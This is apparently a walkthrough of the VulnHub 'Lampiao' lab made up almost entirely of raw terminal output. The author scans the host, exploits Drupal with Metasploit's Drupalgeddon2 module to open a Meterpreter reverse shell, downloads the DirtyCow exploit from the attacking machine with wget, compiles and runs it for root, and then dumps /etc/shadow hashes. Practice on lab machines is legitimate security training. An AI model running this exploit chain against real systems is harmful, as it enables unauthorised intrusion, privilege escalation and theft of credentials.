

~~~
 Currently scanning: 192.168.129.0/16   |   Screen View: Unique Hosts                                         
                                                                                                              
 5 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 300                                              
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.100.2   00:50:56:e2:05:4a      2     120  VMware, Inc.                                               
 192.168.100.1   00:50:56:c0:00:08      1      60  VMware, Inc.                                               
 192.168.100.129 00:0c:29:0b:b1:d1      1      60  VMware, Inc.                                               
 192.168.100.254 00:50:56:fc:f1:8f      1      60  VMware, Inc. 
~~~
nmap
~~~
┌──(alpha㉿Sploit)-[~/vulnhub/lampiao]
└─$ sudo nmap -sV -p- -A 192.168.100.129
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-10 02:33 EST
Nmap scan report for 192.168.100.129
Host is up (0.0010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
~~~
# gobuster
~~~
┌──(alpha㉿Sploit)-[~/vulnhub/lampiao]
└─$ gobuster dir -u http://192.168.100.129:1898 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.100.129:1898
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/misc                 (Status: 301) [Size: 323] [--> http://192.168.100.129:1898/misc/]
/themes               (Status: 301) [Size: 325] [--> http://192.168.100.129:1898/themes/]
/modules              (Status: 301) [Size: 326] [--> http://192.168.100.129:1898/modules/]
/scripts              (Status: 301) [Size: 326] [--> http://192.168.100.129:1898/scripts/]
/sites                (Status: 301) [Size: 324] [--> http://192.168.100.129:1898/sites/]
/includes             (Status: 301) [Size: 327] [--> http://192.168.100.129:1898/includes/]
/profiles             (Status: 301) [Size: 327] [--> http://192.168.100.129:1898/profiles/]
/server-status        (Status: 403) [Size: 297]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
~~~

msfconsole
~~~
┌──(alpha㉿Sploit)-[~/vulnhub/lampiao]
└─$ msfconsole            
Metasploit tip: Display the Framework log using the log command, learn 
more with help log
                                                  

      .:okOOOkdc'           'cdkOOOko:.                                                                        
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.                                                                      
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:                                                                     
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'                                                                    
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo                                                                    
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx                                                                    
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl                                                                    
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.                                                                    
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc                                                                     
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo                                                                      
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl                                                                       
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;                                                                        
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.                                                                         
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,                                                                           
           :kk;.OOOOOOOOOOOOO.;Ok:                                                                             
             ;kOOOOOOOOOOOOOOOk:                                                                               
               ,xOOOOOOOOOOOx,                                                                                 
                 .lOOOOOOOl.                                                                                   
                    ,dOd,                                                                                      
                      .                                                                                        

       =[ metasploit v6.3.45-dev                          ]
+ -- --=[ 2377 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search Drupal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2  exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   3  auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
   4  exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   5  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   6  auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution

Interact with a module by name or index. For example info 7, use 7 or use exploit/unix/webapp/php_xmlrpc_eval

msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp                                                                 
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options                                                                             
                                                                                                                                     
Module options (exploit/unix/webapp/drupal_drupalgeddon2):                                                                           
                                                                                                                                                    
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)

View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.100.129
rhosts => 192.168.100.129
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 1898
rport => 1898
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.100.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.100.129
[*] Meterpreter session 1 opened (192.168.100.128:4444 -> 192.168.100.129:47862) at 2023-12-10 02:37:33 -0500

meterpreter > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    bg            Alias for background
    bgkill        Kills a background meterpreter script
    bglist        Lists running background scripts
    bgrun         Executes a meterpreter script as a background thread
    channel       Displays information or control active channels
    close         Closes a channel
    detach        Detach the meterpreter session (for http/https)
    disable_unic  Disables encoding of unicode strings
    ode_encoding
    enable_unico  Enables encoding of unicode strings
    de_encoding
    exit          Terminate the meterpreter session
    guid          Get the session GUID
    help          Help menu
    info          Displays information about a Post module
    irb           Open an interactive Ruby shell on the current session
    load          Load one or more meterpreter extensions
    machine_id    Get the MSF ID of the machine attached to the session
    pry           Open the Pry debugger on the current session
    quit          Terminate the meterpreter session
    read          Reads data from a channel
    resource      Run the commands stored in a file
    run           Executes a meterpreter script or Post module
    secure        (Re)Negotiate TLV packet encryption on the session
    sessions      Quickly switch to another session
    use           Deprecated alias for "load"
    uuid          Get the UUID for the current session
    write         Writes data to a channel

Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    chmod         Change the permissions of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lmkdir        Create new directory on local machine
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory

Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    portfwd       Forward a local port to a remote service
    resolve       Resolve a set of host names on the target

Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    shell         Drop into a system command shell
    sysinfo       Gets information about the remote system, such as OS

Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system

meterpreter > getuid
Server username: www-data
meterpreter > shell
Process 21094 created.
Channel 0 created.
python -c pty pty,spawn("/bin/bash")
/bin/sh: 1: Syntax error: "(" unexpected
meterpreter > shell
Process 21123 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty,spawn("/bin/bash")
id
python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 4: Syntax error: word unexpected (expecting ")")
[-] core_channel_interact: Operation failed: 1
meterpreter > getuid
Server username: www-data
meterpreter > python -c 'import pty; pty.spawn("/bin/bash")'
[-] Unknown command: python
meterpreter > shell
Process 21235 created.
Channel 2 created.
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@lampiao:/var/www/html$ cat /etc/issue
cat /etc/issue
Ubuntu 14.04.5 LTS \n \l

www-data@lampiao:/var/www/html$ uname -a
uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
www-data@lampiao:/var/www/html$ cd /
cd /
www-data@lampiao:/$ cd
cd
bash: cd: HOME not set
www-data@lampiao:/$ cd /tmp
cd /tmp
www-data@lampiao:/tmp$ ls
ls
www-data@lampiao:/tmp$ wget http://192.168.100.128/linux-exploit-suggester.sh
wget http://192.168.100.128/linux-exploit-suggester.sh
--2023-12-09 18:43:09--  http://192.168.100.128/linux-exploit-suggester.sh
Connecting to 192.168.100.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 83454 (81K) [text/x-sh]
Saving to: 'linux-exploit-suggester.sh'

100%[======================================>] 83,454      --.-K/s   in 0.001s  

2023-12-09 18:43:09 (134 MB/s) - 'linux-exploit-suggester.sh' saved [83454/83454]

www-data@lampiao:/tmp$ ls
ls
linux-exploit-suggester.sh
www-data@lampiao:/tmp$ chmod +x linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
www-data@lampiao:/tmp$ ls
ls
linux-exploit-suggester.sh
www-data@lampiao:/tmp$ ls -al
ls -al
total 92
drwxrwxrwt  2 root     root      4096 Dec  9 18:43 .
drwxr-xr-x 21 root     root      4096 Apr 19  2018 ..
-rwxr-xr-x  1 www-data www-data 83454 Nov  8 22:39 linux-exploit-suggester.sh
www-data@lampiao:/tmp$ ./linux-exploit-suggester.sh
./linux-exploit-suggester.sh

Available information:

Kernel version: 4.4.0
Architecture: i686
Distribution: ubuntu
Distribution version: 14.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

73 kernel space exploits
43 user space exploits

Possible Exploits:

cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,[ ubuntu=14.04 ]{kernel:4.4.0-89-generic},ubuntu=(16.04|17.04){kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: highly probable
   Tags: [ ubuntu=14.04{kernel:4.4.0-*} ],ubuntu=16.04{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: highly probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]                                                                                                                          
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2016-2384] usb-midi

   Details: https://xairy.github.io/blog/2016/cve-2016-2384
   Exposure: probable
   Tags: [ ubuntu=14.04 ],fedora=22
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
   Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [CVE-2015-3202] fuse (fusermount)

   Details: http://seclists.org/oss-sec/2015/q2/520
   Exposure: probable
   Tags: debian=7.0|8.0,[ ubuntu=* ]
   Download URL: https://www.exploit-db.com/download/37089
   Comments: Needs cron or system admin interaction

[+] [CVE-2015-1318] newpid (apport)

   Details: http://openwall.com/lists/oss-security/2015/04/14/4
   Exposure: probable
   Tags: [ ubuntu=14.04 ]
   Download URL: https://gist.githubusercontent.com/taviso/0f02c255c13c5c113406/raw/eafac78dce51329b03bea7167f1271718bee4dcc/newpid.c

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE

   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Exposure: less probable
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
   Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included. Tested in QEMU only

[+] [CVE-2016-4557] double-fdput()

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.4.0-(21|38|42|98|140)-generic}
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2015-1318] newpid (apport) 2

   Details: http://openwall.com/lists/oss-security/2015/04/14/4
   Exposure: less probable
   Tags: ubuntu=14.04.2
   Download URL: https://www.exploit-db.com/download/36782

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working

www-data@lampiao:/tmp$ gcc version
gcc version
gcc: error: version: No such file or directory
gcc: fatal error: no input files
compilation terminated.
www-data@lampiao:/tmp$ gcc
gcc
gcc: fatal error: no input files
compilation terminated.
www-data@lampiao:/tmp$ wget http://192.168.100.128/40847
wget http://192.168.100.128/40847
--2023-12-09 18:45:49--  http://192.168.100.128/40847
Connecting to 192.168.100.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10531 (10K) [application/octet-stream]
Saving to: '40847'

100%[======================================>] 10,531      --.-K/s   in 0s      

2023-12-09 18:45:49 (193 MB/s) - '40847' saved [10531/10531]

www-data@lampiao:/tmp$ ls
ls
40847  linux-exploit-suggester.sh
www-data@lampiao:/tmp$ ./40847
./40847
bash: ./40847: Permission denied
www-data@lampiao:/tmp$ wget http://192.168.100.128/40847.cpp
wget http://192.168.100.128/40847.cpp
--2023-12-09 18:46:27--  http://192.168.100.128/40847.cpp
Connecting to 192.168.100.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10531 (10K) [text/x-c++src]
Saving to: '40847.cpp'

100%[======================================>] 10,531      --.-K/s   in 0.02s   

2023-12-09 18:46:27 (514 KB/s) - '40847.cpp' saved [10531/10531]

www-data@lampiao:/tmp$ ls
ls
40847  40847.cpp  linux-exploit-suggester.sh
www-data@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
<-Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil            
www-data@lampiao:/tmp$ ls
ls
40847  40847.cpp  dcow  linux-exploit-suggester.sh
www-data@lampiao:/tmp$ ./dcow -s
./dcow -s
Running ...
Password overridden to: dirtyCowFun

Received su prompt (Password: )

root@lampiao:~# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@lampiao:~# cp /tmp/.ssh_bak /etc/passwd
root@lampiao:~# rm /tmp/.ssh_bak
root@lampiao:~# ls
ls
flag.txt
root@lampiao:~# cat flag.txt
cat flag.txt
9740616875908d91ddcdaa8aea3af366
root@lampiao:~# cat /etc/shadow
cat /etc/shadow
root:$6$9ErXhqpG$SmL.dOTKiOuHdkLiwoFA7rQu6lNeoVw/QoJZTZlmAqCHFYM9pcv3trm5j0bTnTTjo9YLkbmSYk6T1dBKko/KS0:17641:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
mysql:!:17640:0:99999:7:::
messagebus:*:17640:0:99999:7:::
landscape:*:17640:0:99999:7:::
sshd:*:17640:0:99999:7:::
tiago:$6$GF81EShG$nQkWtVGTDzqDp1jYJNRSHs/PnYztgHPPY3s6dcdf.x.xLxuRiquQtV6GnUB/dQqpPF3xEUoVAat6bFnGadoNM0:17640:0:99999:7:::
root@lampiao:~# history
history
    1  su tiago
    2  exit
    3  cd ~
    4  echo 9740616875908d91ddcdaa8aea3af366 > flag.txt
    5  ls -lh
    6  cat flag.txt 
    7  exit
    8  passwd
    9  exit
   10  cd  
   11  vim /etc/ssh/sshd_config 
   12  service ssh restart
   13  cat /etc/passwd
   14  su tiago
   15  su www-data
   16  init 0
   17  echo 0 > /proc/sys/vm/dirty_writeback_centisecs
   18  cp /tmp/.ssh_bak /etc/passwd
   19  rm /tmp/.ssh_bak
   20  ls
   21  cat *.txt
   22  exit
   23  echo 0 > /proc/sys/vm/dirty_writeback_centisecs
   24  cp /tmp/.ssh_bak /etc/passwd
   25  rm /tmp/.ssh_bak
   26  ls
   27  cat flag.txt
   28  cat /etc/shadow
   29  history
root@lampiao:~# 
~~~